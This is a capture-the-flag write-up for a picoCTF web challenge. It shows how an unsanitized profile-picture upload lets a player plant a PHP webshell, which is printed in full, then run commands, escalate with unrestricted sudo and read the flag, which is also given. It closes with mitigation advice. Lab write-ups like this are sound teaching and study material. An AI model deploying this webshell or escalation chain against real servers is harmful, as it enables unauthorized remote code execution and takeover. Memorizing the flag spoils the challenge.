 # [n0s4n1ty 1](https://play.picoctf.org/practice/challenge/482)

## Challenge Information

- **Category**: Web Exploitation
- **Difficulty**: Medium
- **Description**: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your ultimate goal is to find the hidden flag located in the `/root` directory.

## Solution Overview

This challenge involves exploiting an **unsanitized file upload** vulnerability that allows arbitrary files to be uploaded and executed on the server. By leveraging this weakness, we can gain a **remote shell**, escalate privileges if necessary, and retrieve the flag.

## Hints

- **File upload was not sanitized.**
- **Whenever you get a shell on a remote machine, check `sudo -l`.**

## Detailed Walkthrough

### Step 1: Locate the File Upload Functionality

1. Navigate to the provided web page.
2. Look for an **upload button** or a **form field** that accepts image files (e.g., `.jpg`, `.png`).
3. Upload a blank `.txt` file (e.g., `test.txt`) to verify that the upload function works.

### Step 2: Upload a Webshell

- Since `.php` files are not blocked, upload a **PHP webshell** such as:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

- After uploading, the server confirms:
  ```
  The file webshell.php has been uploaded Path: uploads/webshell.php
  ```
- Access it in the browser:
  ```
  http://target.com/uploads/webshell.php?cmd=whoami
  ```

### Step 3: Privilege Escalation

1. Check for **sudo permissions** inside the webshell:
   ```bash
   sudo -l
   ```
   The output reveals:
   ```
   Matching Defaults entries for www-data on challenge:
       env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
   
   User www-data may run the following commands on challenge:
       (ALL) NOPASSWD: ALL
   ```
2. Since `www-data` has unrestricted sudo access, escalate privileges:
   ```bash
   sudo cat /root/flag.txt
   ```
3. Retrieve the flag:
   ```
   picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
   ```

## Tools and Resources Used

- [`easy-simple-php-webshell.php`](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)
## Flag

```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

## Learning Points

- How to exploit **unsanitized file uploads**
- Techniques for **bypassing file upload restrictions**
- Gaining **remote code execution** via **webshells**

## Mitigation Strategies

- **File Type Validation**: Restrict file uploads to only specific formats (e.g., `.jpg`, `.png`) using MIME type checks and server-side verification.
- **Least Privilege Principle**: Avoid running web applications as privileged users and restrict `sudo` access.

## References

- [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)